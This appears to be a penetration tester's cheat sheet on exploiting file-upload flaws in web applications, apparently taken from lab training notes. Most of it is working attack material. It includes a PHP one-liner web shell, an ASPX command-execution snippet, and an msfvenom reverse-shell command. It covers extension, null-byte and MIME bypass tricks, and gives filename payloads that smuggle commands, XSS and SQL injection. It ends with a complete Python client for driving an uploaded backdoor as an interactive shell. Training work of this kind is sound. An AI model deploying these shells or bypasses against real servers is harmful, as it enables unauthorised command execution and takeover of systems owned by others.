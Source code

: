 ## Info

- Occurs when the web application does not have any form of validation filters on the uploaded files

## Enumeration

**PHP**
- Identification: `<?php system("dir");?>`
- One liner cmd php: `<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>`
- Shell: https://github.com/Arrexel/phpbash
- Seclists: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- Pentestmonkey: https://github.com/pentestmonkey/php-reverse-shell
- Msfvenom: `L3pr3ch4un@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

**ASPX**

```
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

## Client Side Validation

We can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

Note: We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.’

**Fuzzing extesions**

Not all extensions will work with all web server configurations, so we may need to try several extensions to get one that successfully executes PHP code.

- **Common Extensions**:https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- **PHP**:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst
- **ASP**: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP

**Reverse Double Extensions**:

In some cases, the file upload functionality itself may not be vulnerable, but the web server configuration may lead to a vulnerability. For example, an organization may use an open-source web application, which has a file upload functionality. Even if the file upload functionality uses a strict regex pattern that only matches the final extension in the file name, the organization may use the insecure configurations for the web server.
**eg:** filename.php.jpg

**Character Injection**:

The following are some of the characters we may try injecting:

- `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

Each character has a specific use case that may trick the web application to misinterpret the file extension. For example, (shell.php%00.jpg) works with PHP servers with version 5.X or earlier

**Type Filters**

There are two common methods for validating the file content: Content-Type Header or File Content.

**Wordlist**: https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt

**Mime-Type**

Multipurpose Internet Mail Extensions (MIME) is an internet standard that determines the type of a file through its general format and bytes structure.

**Injections in File Name**

```
file$(whoami).jpg
file`whoami`.jpg 
file.jpg||whoami
<script>alert(window.origin);</script>
file';select+sleep(5);--.jpg
```

**Windows Specific**:

One such attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards. If the web application does not properly sanitize these names or wrap them within quotes, they may refer to another file (which may not exist) and cause an error that discloses the upload directory. 


## Interact
```
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```
`L3pr3ch4un@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes`
